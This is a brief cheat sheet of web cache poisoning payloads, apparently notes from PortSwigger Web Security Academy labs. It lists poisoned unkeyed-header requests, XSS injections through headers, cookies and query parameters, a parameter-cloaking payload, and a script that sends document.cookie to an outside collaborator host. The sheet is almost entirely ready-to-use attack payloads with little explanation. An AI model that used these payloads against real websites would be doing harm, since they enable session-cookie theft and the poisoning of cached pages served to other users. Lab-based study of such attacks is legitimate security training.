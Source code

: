 # Web Cache Poisoning

## If X-Forwarded-Host and X-Cache works:

  go to the **exploit server** ->

  in "file": /recources/js/tracking.js
  in "body": document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')

![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
```
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
```
## Web cache poisoning with an unkeyed cookie:
```
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
```
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

```
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
```
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
## Web cache poisoning via an unkeyed query string
```
/?search=kek'/><script>alert(1)</script>
Origin:x
```
## Web cache poisoning via an unkeyed query parameter
```
/?utm_content=123'/><script>alert(1)</script>
```
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``
